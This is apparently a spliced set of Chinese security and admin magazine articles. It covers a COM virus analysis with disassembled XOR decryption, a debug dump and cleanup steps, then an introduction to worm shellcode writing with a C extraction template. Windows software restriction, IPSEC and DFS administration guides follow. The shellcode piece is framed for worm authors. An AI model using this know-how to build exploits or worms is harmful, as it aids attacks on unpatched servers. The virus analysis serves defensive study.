seg000:0947
seg000:0947 ; **** S U B R O U T I N E ****
seg000:0947
seg000:0947
seg000:0947 sub_947         proc near
seg000:0947 8B 96 16 01      mov     dx, [bp+116h]
seg000:094B 8B FE            mov     di, si
seg000:094D B9 EC 01         mov     cx, 1ECh
seg000:0950
seg000:0950 loc_950:           ; CODE XREF: sub_947+D
seg000:0950 AC      lodsb
seg000:0951 32 C2   xor        al, dl
seg000:0953 AA      stosb
seg000:0954 E2 FA   loop       loc_950
seg000:0956 C3      retn
seg000:0956 sub_947            endp
```

看看0947h处的指令：`mov dx, [bp+116h]`，它的作用是把[bp+116h]处的值赋值给通用寄存器dx。

上面的分析中我们知道，bp的值是082fh，所以：`[bp+116h] = [082fh+116h] = [0945h]`。

往上看，0945h处的值是3Bh，因此dx的值就是3Bh。

好，我们再接着看：`mov di, si`。从上面的语句中可以知道，si的值是：`lea si, [bp+128h]`。

我们来算一下：`[bp+128h] = [082fh+128h] = [957h]`。

0957h正好是sub_947 endp之后的第一条指令所在的地址，也就是相当于上面的病毒框架中的`Encrypt_Start:`：

```asm
Encrypt_Start:
; 加密后的代码
; ...
```

呵呵，聪明的你是不是已经看出来了呢？0957h开始的就是加密后的病毒代码，这里的mov di, si是为了下面的xor解密作准备。

`mov cx, 1ECh`这条指令就不用多说了吧？它表示的是要解密的病毒体的长度。

好了，再接着就是用xor指令进行解密了，经过解密之后，病毒体还原成正常的指令，可以继续往下执行。

### 3. 利用 debug 进行病毒体的解密

细心的读者可能会问，病毒在运行的过程中会自动把病毒进行还原，但是我们在IDA的反汇编窗口中，看到的还是未被还原前的加密代码啊，我们怎样才能够看到正常的代码呢？解决的方法有两个：一个是用IDA Pro本身的IDC脚本进行解密，不过这种方法比较繁琐；另一个是用debug程序进行动态调试，得到还原后的程序。

让我们用debug打开sample.vir，下面是解密还原的全过程：

```
c:\>debug sample.vir
-r
AX=0000  BX=0000  CX=0A43  DX=0000
SP=FFEE  BP=0000  SI=0000  DI=0000
DS=13BA  ES=13BA  SS=13BA  CS=13BA
IP=0100   NV UP EI PL NZ NA PO NC
13BA:0100 E93108         JMP     0934
-t

AX=0000  BX=0000  CX=0A43  DX=0000
SP=FFEE  BP=0000  SI=0000  DI=0000
DS=13BA  ES=13BA  SS=13BA  CS=13BA
IP=0934   NV UP EI PL NZ NA PO NC
13BA:0934 E80000         CALL    0937
-t

AX=0000  BX=0000  CX=0A43  DX=0000
SP=FFEC  BP=0000  SI=0000  DI=0000
DS=13BA  ES=13BA  SS=13BA  CS=13BA
IP=0937   NV UP EI PL NZ NA PO NC
13BA:0937 5D             POP     BP
-t

AX=0000  BX=0000  CX=0A43  DX=0000
SP=FFEE  BP=0937  SI=0000  DI=0000
DS=13BA  ES=13BA  SS=13BA  CS=13BA
IP=0938   NV UP EI PL NZ NA PO NC
13BA:0938 81ED0801       SUB     BP,0108
-t

AX=0000  BX=0000  CX=0A43  DX=0000
SP=FFEE  BP=082F  SI=0000  DI=0000
DS=13BA  ES=13BA  SS=13BA  CS=13BA
IP=093C  NV UP EI PL NZ AC PO NC
13BA:093C 8DB62801      LEA     SI,[BP+0128]
SS:0957=218F
-t

AX=0000  BX=0000  CX=0A43  DX=0000
SP=FFEE  BP=082F  SI=0957  DI=0000
DS=13BA  ES=13BA  SS=13BA  CS=13BA
IP=0940  NV UP EI PL NZ AC PO NC
13BA:0940 E80400          CALL    0947
-p

AX=0024  BX=0000  CX=0000  DX=003B
SP=FFEE  BP=082F  SI=0B43  DI=0B43
DS=13BA  ES=13BA  SS=13BA  CS=13BA
IP=0943  NV UP EI PL NZ NA PE NC
13BA:0943 EB12          JMP     0957
-rcx
CX 0000
:0a43
-w
Writing 00A43 bytes
-q
```

我们来具体解释一下：

- (1) 记录文件的原长度
  刚开始的第一条命令是“r”，目的是记录下bx和cx的值。在DOS文件系统中，COM文件刚刚被装载进内存后，bx和cx记录的是文件本身的长度，其中高位被记录在bx中，低位被记录在cx中。在这里，cx=0a43h, bx=0h。
- (2) 单步执行病毒体，让其自解密
  接着就是用“t”命令进行单步执行，目的是模拟病毒的正常执行程序，一直到了：`13BA:0940 E80400 CALL 0947`。这个CALL是进行解密的CALL，所以我们要用“p”命令一直把它运行完，当这个CALL运行完后，病毒体就完成了解密过程，此时在内存中的病毒已经还原了。
- (3) dump出还原后的病毒体
  然后，我们用“rcx”命令，把刚才的cx=0a43h还原，再接着用“w”命令把内存中的映像写入到文件sample.vir中去，这样，sample.vir就是还原后的程序了。

### 4. 清除病毒

至此，COM病毒的还原工作已经做完，剩下的就是常规的病毒分析流程了。

俗话说：知己知彼，百战不殆！我们来想想，如果我是病毒的作者，我会让这个病毒做什么事情呢？首先，肯定是要保存宿主文件的原入口的第一条指令，然后修改宿主文件的入口指令，让第一条指令就跳到我们的病毒体去，然后在病毒体中肯定会有跳回宿主原入口的指令，这样才能达到病毒自身隐藏的目的。

- (1) 找回宿主的原入口
  根据这个思路，我们可以在病毒体内寻找一些读文件的操作，这些操作中必有一个是读取保存在病毒体内宿主的原入口的。并且在这些读文件的操作中，赋值给cx的值一般是3左右，因为入口指令一般都很小。

好，我们在解密了的病毒体内找到了这样的指令：

```asm
seg000:09D2 B4 3F         mov     ah, 3Fh ; '?'
seg000:09D4 8D 96 2C 02   lea     dx, [bp+22Ch]
seg000:09D8 B9 03 00      mov     cx, 3
seg000:09DB CD 21         int     21h ; DOS - 2+ - READ FROM FILE WITH HANDLE
seg000:09DB               ; BX = file handle, CX = number of bytes to read
seg000:09DB               ; DS:DX -> buffer
```

嘿嘿，它的作用就是从ds:dx开始读取3个字节。算一算：`lea dx, [bp+22Ch]`，`[bp+22Ch] = [082fh+22Ch] = [0A5Bh]`。而：

```asm
seg000:0A5B E9        db 0E9h ; ?
seg000:0A5C 00        db   0 ;
seg000:0A5D 00        db   0 ;
```

所以，最后的结果是读取了E9h、0h、0h这3个字节，而这3个字节就是宿主的原入口的第一条指令了。

- (2) 杀毒过程
  我们得到了宿主的原入口指令，也知道了病毒体的第一个指令的地址，事情就好办了。清除方法：恢复前3字节（E9h、0h、0h），然后删除后面的病毒部分。有兴趣的读者可以自行写一个这样的程序，享受学习的快乐。

> **编后**
> 病毒分析并不复杂，只要我们有耐心，并且遵循一定的规律就可以了。基本招式不外乎：确定病毒的加密解密流程，然后逆其道而行之。接着分析病毒的行为特征，找到病毒做了什么工作，最后进行还原（恢复入口、清除病毒体）。

---

socket: 看看各大杀毒厂商推出的前10名病毒排行榜的清单，不难发现2003年几乎是蠕虫的天下，除了利用传统的 Email、LAN 共享等传播方式之外，这些传播迅速、危害极大的蠕虫几乎无一例外地都利用了最新或最常见的网络漏洞进行传播，比如 WebDav、RPC DCOM 等严重漏洞。hacker 们的发现为 Vxer 提供了快速传播蠕虫的手段，而对蠕虫来说，ShellCode 是最重要的部分，下面我们就一起来探讨一下 shellcode 的相关技术。

适合对象：病毒研究者、程序员
前置知识：病毒传播相关基础、系统底层编程知识

尽管漏洞在广泛流传之前微软就推出了相应的补丁，但为数众多的粗心管理员还是给 hacker 和蠕虫编写者以可乘之机。网络上数以万计带着漏洞顽强运行着的服务器成了 hacker 和 Vxer 的目标，想知道他们是如何利用这些漏洞的吗？

名词解释：Vxer，这里是指那些编写病毒和蠕虫的兄弟姐妹。

漏洞利用中最关键的环节就是 ShellCode 的编写。由于漏洞发现之初安全研究者一般都不会公布或不会完整地公布 Exploit，因此对于蠕虫编写者，如果想最好地利用 hacker 的发现，一定要掌握 ShellCode 的编写技术。

### 什么是 ShellCode

如果对 ShellCode 这个名词还很陌生的话，没关系，我简单解释一下，ShellCode 实质上就是一段代码（其中可能会有填充数据），其用来发送到服务器利用特定的漏洞以获取控制权，获取了控制权之后，就可以为所欲为了：比如开个 Shell，或打开端口，或安装个 SMTP 服务甚至是 http 服务……

### ShellCode 编写要考虑的因素

ShellCode 一般是作为数据形式发送给服务器制造溢出得以执行代码以获取控制权的。而不同的漏洞利用对于数据包的格式都有特殊的要求，ShellCode 必须首先满足被攻击程序对于数据报格式的特殊要求，这些要求随漏洞的不同而有所不同。但 ShellCode 编写中面临的有些问题则是一致的，这包括：

- 1. ShellCode 的编写语言。用什么语言编写 ShellCode 最适合需要。这取决于想以最快的速度编写可用的 ShellCode 还是想完全控制 ShellCode 的代码生成。
- 2. ShellCode 本身代码的重定位。
- 3. ShellCode 地址的定位。即如何通过溢出使控制权落在 ShellCode 手中。
- 4. ShellCode 中使用的 API 地址的定位。
- 5. ShellCode 的编码问题。
- 6. 多态技术躲避 IDS 检测。

在下一部分，我们将针对这几个方面简单介绍 ShellCode 编写中应考虑的问题和所需要的技术。

## ShellCode 编写技术

### 1. ShellCode 的编写语言

ShellCode 本质上是可以引用任何语言编写的，如果你喜欢，甚至可以用 Basic 编写。我们需要的是提取出生成的机器码，然后用在蠕虫中以获得快速传播。ShellCode 使用汇编语言编写是最具有可控性的，因为我们可以完全通过指令控制代码生成。但缺点是编写需要耗费较多的时间，而且需要对汇编这种较难的语言有深入的了解。C 语言编写起来较为省力，速度较快，但 ShellCode 代码提取起来复杂一点，不过一旦写好一个模板，以后再写 ShellCode 基本就不需要改动了。比如我们可以把 ShellCode 代码放在如下函数中：

```c
void ShellCodes()
{
// ShellCode 代码
// 函数结束标志字符串
}
```

```c
__asm
{
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
}
```

> **编者注**
> 本文仅从技术角度来具体分析蠕虫中的各项关键技术，并不提供完整的蠕虫代码。大家在学习时，希望也请从技术交流和学习的角度出发。

然后在 main() 中用函数指针操作和 memcmp 定位 ShellCode 的开始和结束地址，这样在运行时只要用 printf 之类的函数将生成的 ShellCode 代码打印出来或保存在文件中就可以利用了：

```c
// shellcode的地址
pSc_addr = (char *)ShellCodes;

// 找到shellcode的结尾及长度
for(k=0; k<MAX_Sc_Len; ++k) {
    if(memcmp(pSc_addr+k, fnend_str, ENDSTRLEN) == 0) break;
}

if (k < MAX_Sc_Len) {
    Sc_len = k;
} else {
    k = 0;
    printf("\nNo End str defined in ShellCodes function! Please Check....\n");
    return 0;
}

// 把shellcode 代码复制进sc_buff
memcpy(sc_buff, pSc_addr, Sc_len);

// 打印到屏幕或保存到文件
PrintSc(buff, buff_len);
```

ShellCode 使用 C 编写比使用汇编语言省力的多，而且快速。考虑到蠕虫编写的时间要求，推荐用 C。当然，如果其他语言能够将生成的代码提取出来也可以。

- b) 为加入到域的计算机创建注册表路径规则：

若要执行此过程，您必须是 Active Directory 中 Domain Admins 组或 Enterprise Admins 组的成员，或者您必须被委派了适当的权限。作为安全性的最佳操作，可以考虑使用运行方式来执行这个过程。

可能需要为“组策略对象 (GPO)”新建一个软件限制策略设置（如果还没有执行此操作）。

按以下格式处理注册表路径：`%[注册表区段]\[注册表键名]\[值名]%`

注册表区段名必须完整写出，其省略形式将无效。例如，不能用 HKCU 替代 HKEY_CURRENT_USER。注册表路径规则可能在第二个百分号之后还含有后缀。不要在该后缀中使用反斜杠 (\)。

`%HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders\Cache%OLK*` 将是有效的。

在软件限制策略的详细信息窗格中，“指定的文件类型”中列出了只受路径规则影响的文件类型。存在一个由所有规则共享的指定文件类型的列表。

> **注意**
> 要刷新软件限制策略，必须先注销计算机然后重新登录。将多个软件限制策略规则应用到策略设置时，规则在处理冲突方面存在优先权。

> **编后语**
> 经过以上层层把关和设置后，应该说我们系统的安全性有了提高。不过，我们还是不能盲目。首先，如何做出一个足以抵挡各类恶意程序的设置本身就是一个值得我们思考的问题。另外，太严格的设置可能会导致我们自己处处受限制，给自己带了很多不方便。小编认为，其实一切还是要从我们个人的安全意识入手，变被动为主动，太多的安全问题其实都是由于我们安全意识不够所造成的。


(上接第 53 页)

- 计算机 A 上的活动 IPSEC 策略必须有针对发往计算机 B 的任何出站数据包的筛选器。Source=A 且 Destination=B。
- 计算机 A 上的活动 IPSEC 策略必须有针对来自计算机 B 的任何入站数据包的筛选器。Source=B 且 Destination=A。
- 每方都必须有反向的筛选器：
- 计算机 B 上的活动 IPSEC 策略必须有针对来自计算机 A 的所有入站数据包的筛选器。Source=A 且 Destination=B。
- 计算机 B 上的活动 IPSEC 策略必须有针对发往计算机 A 的任何出站数据包的筛选器。Source=B 且 Destination=A。

## Win2003.net IPSEC 总结

2003 的 IPSEC 应用是非常广大的，但是如果只是用 IPSEC 配置防火墙，那么上面我们介绍的细节就足够了。如果你想把它应用到 L2TP, VPN 等上面，你可以仔细研究一下 IPSEC 的应用与部署。Windows 2000 和 Windows 2003.net 的配置策略可以导出通用，但是建议使用 Windows 2003.net 的 IP 策略，因为 2003.net 的漏洞比 2000 相对少些，而且最近出了其 SP1，安全性又提高了一些。希望大家都能通过 IPSEC 配置一个比较安全的服务器，杜绝常见的网络攻击。

> **编后语**
> 现在的网络安全性要求越来越高，我们推荐读者朋友采用 Windows 2003.net IPSEC 来充当性价比很高的防火墙，以保护的企业服务器的安全。小编以前总采用网卡上面的防火墙，或者直接装个天网什么的，但总觉得缺乏更具体的细度，而且最郁闷的是 wtf 老是能想些办法穿透我的防火墙，现在有了 IPSEC，俺也可以防护 wtf 的扫描和攻击了！（wtf：弄半天就为防我这个啊，晕倒……）

## 使用分布式文件系统

### 实现文件目录容错设计

文 / 吴丽娜

刘流：随着企业存储资源如雨后春笋般地出现在各个地方，分布式文件系统(DFS)应运而生。它可以把分布在许多不同服务器上的共享文件夹组合在一个逻辑名字空间中，用户可以更方便地查找和访问网络上的共享文件夹。同时，它还可以平衡我们的网络负载，提供高度容错的储存机制……总的来说，DFS 是一种非常实用的技术，下文就针对这个而引发论述！

**适合对象：**企业网管
**前置知识：**熟悉域的相关概念，了解分布式文件系统

分布式文件系统（Distributed Files System，简称 DFS）是 Microsoft Windows Server 2000 和 2003 操作系统中用来帮助网络管理员管理分布式企业网络文件资源的重要服务。本文同时适用于 Windows 2000 和 Windows 2003 操作系统中的分布式文件系统。

分布式文件系统是若干个不同的逻辑磁盘分区或卷标组合在一起形成的完整的层次文件系统。DFS 为实际可能分布在网络上任意位置的资源提供了一个逻辑上的树形文件系统结构，从而为用户提供了同分布式于网络上各处的共享文件夹建立连接的简便途径。DFS 通过在一个或多个域中不同计算机上的共享数据创建一个单一分层视图，不仅易于对多重共享文件夹进行管理，还使用户在网络上查找一个文件变得更容易。不论下面的资源具体位置如何，用户不必知道资源在网络中的实际位置，就可以通过 DFS 对其进行访问。

DFS 不像 NTFS 文件系统或文件分配表(FAT)文件系统，它是一个把文件系统和共享文件夹统一到一个单一逻辑名字空间的后台处理系统。用户通过使用这个名字空间，可以在网络上对资源进行有效存储。DFS 分布式文件系统都是以 DFS 根开始的，子节点是共享网络目录的逻辑代表，每个叶节点不能再有子节点。而分布节点可以有子节点。用户可以使用多个 DFS 树分布组织中的共享资源。

DFS 提供的在不同服务器上逻辑分组共享文件夹的能力，并且能透明地把共享文件夹连接到一个单一的、分层的名字空间。以前，使用通用命名协定 (UNC) 名字，用户或应用程序需要指定物理服务器 and 共享文件夹，以获得对文件信息的访问。系统管理员可以利用分布式文件系统 (DFS)，使用户访问和管理那些物理上跨网络分布的文件更加容易。通过 DFS，可以使分布在多个服务器上的文件在用户面前显示时，就如同位于网络上的一个位置。用户在访问文件时不再需要知道和指定它们的实际物理位置。

随着网络的持续壮大，各组织内部都开始使用内部和外部已存在的存储。对内部网而言，将单个设备号映射到单独共享的方式不再有效。并且，不管其直接引用 UNC 名字的能力如何，用户都会因为要访问所需的数据，而不得不记忆大量的地址，这会让用户感到很不方便。DFS通过将文件服务器和共享文件夹连接到一个简单的、更有意义的名字空间来解决这些问题，这个新的名字空间允许共享目录与其他在单个层次中的每一个文件夹相连。由于DFS将物理存储映射到一个逻辑表示之中，为网络带来的好处是数据的物理位置对用户和应用程序变得透明了。

### DFS 基本概念导引

- **a) DFS 拓扑:** 一个分布式文件系统的整体逻辑层次，包括在 DFS 管理控制台中的元素，如根共享目录和副本集。这不会和 DFS 名字空间混淆，DFS 名字空间是被用户看到的共享文件夹的逻辑视图。
- **b) DFS 根:** 在 DFS 拓扑最顶层的共享，它是组成 DFS 名字空间的链接和共享文件的开始点。DFS 根能为基于域的操作在域一级定义，或为独立操作在服务器级定义。基于域的 DFS 可在域中有多个根，但每个服务器上只有一个根。
- **c) 根副本:** 服务器复制一个 DFS 根，以提供更好的有效性。保存 DFS 根的服务器承担为共享文件夹向客户分发引用的责任。
  > 注：如果服务器变成无效，并且一个根副本没有创建，DFS 名字空间变成不可操作。副本也可为存在的 DFS 链接而创建。
- **d) DFS 共享文件夹:** 在名字空间中被拥有正确权限的用户共享的文件或文件夹。共享文件夹可在根一级存在（只对于基于域的 DFS），或被 DFS 链接引用。
- **e) 复制策略:** 在启用复制的计算机之间启用自动文件复制的配置规则。基于域的 DFS 根目录或子目录支持复制。一个独立的 DFS 不能利用自动复制，因为它不使用活动目录。复制策略因在 DFS 名字空间中的每一个复制而不同。
- **f) 分区知识表 (PKT):** 把在 DFS 名字空间中的根和复制节点映射到活动目录位置和物理服务器的一个表格。对一个基于域的 DFS 根而言，PKT 被存储在活动目录中，并对域中的每一个域控制器有效。对独立的 DFS 根而言，PKT 被存储在独立的服务器注册表中。当一个 DFS 客户获得在 DFS 名字空间的一个共享文件夹的访问时，它用 TTL 中指定的时间长度缓存那部分 PKT。引用是用户连接的物理服务器以及保存在 PKT 中的共享。
- **g) 生存期 (TTL):** 当 DFS 客户访问一个共享文件夹时，TTL 是它存储来自 PKT 的引用信息的时间长度。当 TTL 过期或当客户被重启时，DFS 客户申请一个新的 PKT 部分。如果共享文件夹在过期前被访问，TTL 重设。它在每一个链接基础上进行配置。
- **h) 修正级:** 提供 DFS 客户兼容性。可在网络监视器跟踪中查看的 DFS 客户有 3 个修正级。运行在 Windows NT 4.0、Windows 98 和 Windows 95 的 DFS 客户支持 DFS 修正级 2；运行基于 Windows Server 2003、Windows 2000 的客户支持修正级 3。修正级 1 的客户不存在。DFS 客户和服务器协商被支持的最高共同协议修正。

通常，当处于以下情况时，我们应该考虑实施 DFS：

- 用户需要经常访问共享文件夹。
- 为了改善服务器的负载平衡状况。
- 很多用户都需要访问的共享文件夹。
- 组织中有供内部或外部使用的 Web 站点。
- 需要访问共享文件夹的用户分布在一个站点的不同位置或多个站点上。

无论是 Windows 2000 还是 Windows 2003 的 DFS，都支持两种类型的 DFS——基于域的 DFS 和独立的 DFS。基于域的 DFS 把它的配置信息存放在活动目录中。由于这个信息在域中的多个域控制器上有效，基于域的 DFS 为域中的分布式文件系统提供高有效性。

基于域的 DFS 根有以下特性：
- 它可有根一级的共享文件夹。
- 它有自动发布到活动目录的拓扑结构。
- 它必须在处在 Windows 2000 后续版本所建域中。
- 它可以通过文件复制服务（FRS）支持根和文件复制。

以前版本的计算机中必须下载和安装 DFS 客户。只有安装 DFS 客户软件的客户机才能访问 DFS 资源，运行 DFS 客户的计算机必须是 DFS 根目录域的成员。客户端软件可以从微软的网站上直接下载获得，同时用户可以通过微软的网站了解更多关于 DFS 客户端的信息。

> **编者注**
> 使用基于域的 DFS 根，可以指定其他的服务器 (称作根复制服务器) 来保存 DFS 的副本，从而使整个系统具有一定的容错性和负载平衡能力，也就在一程度上解决了独立型 DFS 根带来的问题。

> **编者注**
> 如果您暂时对上面的有些概念还有些模糊，不要紧，那就按照下面的应用操作一遍，或许回过头来理解时会更加深刻。

独立的 DFS 把它的配置信息存放在本地计算机注册表中。它被设计用来和以前版本的 DFS 向后兼容。

## DFS 的应用

### 1. 建 DFS 根目录

一个独立的 DFS 根有以下特性：

依次选择 [开始] —> [程序] —> [管理工具] —> [分布式文件系统]，就可以打开分布式文件系统控制台。然后右键单击“分布式文件系统”图标，从弹出菜单中选择“新建 DFS 根目录向导”对话框。接下去就会出现图 1 所示的情形，这里我们选择“创建一个域 DFS 根目录”。在接下来的向导页面中，您还需要为 DFS 指定主服务器，并且要求指定根目录的名称，这都比较简单，就不多说了。

- 它不能在根一级复制。
- 它不使用活动目录或文件复制系统。

对于 Windows 2000 以后版本的操作系统，最好使用基于域的配置，以便利用活动目录的优点。为了向以前版本操作系统兼容，对早期 DFS 的实现最好使用独立的 DFS。


> **编者注**
> 通过建立根复制服务器，可以在 DFS 树中创建连接，把用户提交给共享文件夹的各个副本，它不但提供了一定程度的容错能力和负载平衡能力，而且可以在共享一级上充分利用网络的拓扑结构来控制网络上的数据流量。

下面我们来看一下 DFS 的体系结构。无论是在 Windows 2000 还是在 Windows 2003 中，除基于服务器的 DFS 外，还有基于客户的 DFS 组件。DFS 客户程序可以将对 DFS 根目录或 DFS 链接的引用缓冲一段时间，该事件由管理员指定。DFS 客户组件可以在许多不同的 Windows 平台上运行，Windows NT 4.0/2000 的计算机和运行 Windows 98 的计算机都包括了 DFS 客户。依次按向导执行下来之后，就会得到如图 2 所示的界面。需要注意的是，在每个服务器上只能建立一个根目录共享。


### 2. 新建 DFS 链接

在主目录上面单击鼠标右键，如图 3 所示。然后依次按向导执行下去，就可以建立新的 DFS 链接。


图 3

### 3. 新建 DFS 链接副本

为了在共享目录之间实现备份功能以向用户提供容错设计，必须在每一个链接之上建立一个 DFS 链接副本，并且设置为自动复制。当链接和副本不处在同一台服务器上时，才能设定自动备份。创建方法如图 4 所示。


图 4

### 4. 新建 DFS 根目录副本

为了能够向根目录提供容错，必须建立根目录副本，方法是在根目录上面点击右键，选择“新建 DFS 根目录副本”，得到如图 5 所示的画面。

### 5. 配置 DFS 复制策略


图 5

复制策略主要有手动复制和自动复制两种类型，一般情况下，在域中我们可以选择自动复制。对于副本与共享文件夹处在同一台机器上的情况，只能使用手动复制。这里，我们只要在图 6 所示的画面中启用自动复制就可以了。


图 6

对于基于域的 DFS，可以允许 DFS 将 DFS 共享文件夹的内容自动复制到 DFS 共享文件夹组中的其它文件夹。当一个或多个 DFS 共享文件夹发生改变时，它可以使 DFS 共享文件夹的内容保持同步。

可见，分布式文件系统经过适当设定之后，它还是一种高度容错的储存机制。在 Windows 2000 或 Windows 2003 域控制器上建立一个容错的 DFS 根目录；并通过多台服务器复制 DFS 本身及其下的链接时，你将建立一个高度容错的文件系统，此系统通过复制、共享均匀地分散负载，同时还向你提供明显的可扩展性改善。

> ### 后记
> DFS 无限的可伸缩性和更加平衡的存储负载给我们带来了极大的便利。它不仅解决了由于存储容量限制、规划不好或在网络上添加服务器而引起的“分布共享”的问题，同时经过适当设定后的 DFS，还是一种高度容错的储存机制。或许，你正为这些问题而烦恼，何不试试呢？！